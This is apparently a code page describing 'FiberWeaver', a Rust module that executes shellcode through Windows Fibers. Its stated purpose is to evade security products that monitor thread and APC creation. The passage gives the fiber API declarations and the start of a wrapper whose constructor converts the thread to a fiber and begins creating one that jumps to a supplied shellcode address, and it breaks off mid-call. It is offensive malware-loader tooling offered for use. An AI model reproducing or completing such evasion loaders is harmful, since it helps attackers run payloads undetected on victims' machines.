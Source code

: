 [DESCRIPTION]
This implementation replaces the existing thread-based and APC-based shellcode execution methods with Windows Fibers. Fibers provide a lightweight, cooperative multitasking mechanism that's less monitored than traditional thread creation APIs. This approach offers enhanced evasion capabilities since fibers execute within the context of existing threads rather than creating new execution paths that might be detected by security solutions.

[CODE_NAME]
FiberWeaver - Fiber-Based Shellcode Execution for Rust

```rust
#[cfg(target_os = "windows")]
mod fiber {
    use std::ffi::c_void;
    use std::ptr::{null, null_mut};
    use std::mem;
    
    // Define Windows Fiber API constants and types
    type LPFIBER_START_ROUTINE = unsafe extern "system" fn(*mut c_void) -> ();
    
    extern "system" {
        fn ConvertThreadToFiber(lpParameter: *const c_void) -> *mut c_void;
        fn CreateFiber(
            dwStackSize: usize,
            lpStartAddress: LPFIBER_START_ROUTINE,
            lpParameter: *const c_void,
        ) -> *mut c_void;
        fn SwitchToFiber(lpFiber: *mut c_void);
        fn DeleteFiber(lpFiber: *mut c_void);
        fn ConvertFiberToThread() -> i32;
        fn FlsAlloc(lpCallback: *const c_void) -> u32;
        fn FlsSetValue(dwFlsIndex: u32, lpFlsData: *const c_void) -> i32;
        fn FlsGetValue(dwFlsIndex: u32) -> *mut c_void;
        fn FlsFree(dwFlsIndex: u32) -> i32;
        fn GetLastError() -> u32;
    }
    
    // Fiber wrapper struct with RAII pattern for automatic cleanup
    pub struct Fiber {
        shellcode_fiber: *mut c_void,
        main_fiber: *mut c_void,
        fls_index: Option<u32>,
    }
    
    impl Fiber {
        pub unsafe fn new(shellcode_addr: *mut c_void, parameter: Option<*const c_void>) -> Result<Self, String> {
            // Convert current thread to fiber if it's not already a fiber
            let main_fiber = ConvertThreadToFiber(null());
            if main_fiber.is_null() {
                // If the thread is already a fiber, this will fail, so we need to get the current fiber
                let error = GetLastError();
                if error == 0x00000578 { // ERROR_ALREADY_FIBER
                    // Get current fiber instead
                    return Err("Thread is already a fiber - implementation needs GetCurrentFiber".to_string());
                } else {
                    return Err(format!("ConvertThreadToFiber failed with error: {}", error));
                }
            }
            
            // Create a new fiber that will execute our shellcode
            let shellcode_fiber = CreateFiber(
                0, // Use default stack size
```